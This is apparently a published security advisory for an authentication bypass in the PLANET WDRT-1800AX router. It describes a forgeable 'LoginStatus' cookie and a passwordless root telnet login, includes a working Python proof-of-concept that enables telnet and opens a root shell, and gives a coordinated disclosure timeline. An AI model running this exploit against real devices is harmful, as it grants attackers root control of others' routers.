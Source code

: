 # Planet Technologies WDRT-1800AX Authentication Bypass Vulnerability .

Affected Device: `WDRT-1800AX`

Affected Firmware: `v1.01-CP21`

Description:

```
The PLANET technologies 1800AX router runs a web service vulnerable to trivial authentication bypass.
The bypass can be combined with a telnet weakness leading to a root shell on the device. 
The router runs a minimal lighttpd binary to support a collection of JavaScript and html files which create requests to a 'cdata.cgi' binary.
This 32bit MIPS compiled binary supports the core functionality of the web service however uses a standard cookie to determine authenticated status. 
```

------

## Details

The WDRT-1800AX router from PLANET technologies uses a pre-set, boolean cookie for determining authentication to the web management pages. The cookie 'LoginStatus' is created when a user attempts to login to the login form hosted by a CGI binary running via Lighttpd.

![login](login.png)

By simply replacing `false` to `true`, a user can bypass the need to supply the password to the web form, and instead access all administration functions of the device, including but not limited to; password resets, configuration downloads and enabling telnet. 

Due to the router in its default configuration not having a password for the root user, when a user attempts to login to the telnet service as root, it simply supplies a session. 

![telnet](telnet.png)

With a basic proof of concept, any lan-adjacent attacker can gain root access to the device without needing the appropriate passwords to the service(s). An example can be found below to enable the telnet service and interact with it. 

```python
import requests, telnetlib, sys
host = sys.argv[1]
url = 'http://'+host+'/cgi-bin/cdata.cgi'

cookies = {'LoginStatus':'true'}

headers = {
   'User-Agent': 'Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0',
   'Content-Type': 'application/x-www-form-urlencoded; charset=UTF-8',
}
# doesnt check if its already enabled, just tries to enable it. 
data = {
   'operation': 'DevManagement',
   'opt': 'telnet',
   'telnet': '1',
}

user = "root"
print("enabling telnet")

req = requests.post(url, headers=headers,data=data)

if req.text != '{ "err": 0 }':
   print("failed")

tn = telnetlib.Telnet(host, 23)
if (tn):
   print("connecting to session")
   tn.read_until(b"login: ")
   tn.write(user.encode('ascii') + b"\n")
   tn.interact()
```



![shell](shell.png)


### Disclosure 

13/2/23 - Issue identified, pocs created and reported via support page <br>
13/2/23 - Vendor reply asking for further information <br>
13/2/23 - Send python proof of concepts and expanded the explaination <br>
15/2/23 - Vendor reply confirming the behavior, estimating a fixed release in Q2 2023. <br>
07/04/23 - Vendor pushed updated firmware <br>
05/05/23 - Advisory released <br>


### Extra notes

When I was first looking into the web app running in QEMU, I figured that the option to change the language to English was broken since the management option was set but not rendering. This was until I realised that the English language JavaScript file wasn't ever being included in the pre-set html pages, renaming the `lang_en.js` to `lang_zh.js` and clearing browser cache allowed the page to render without having to translate everything manually. :) 



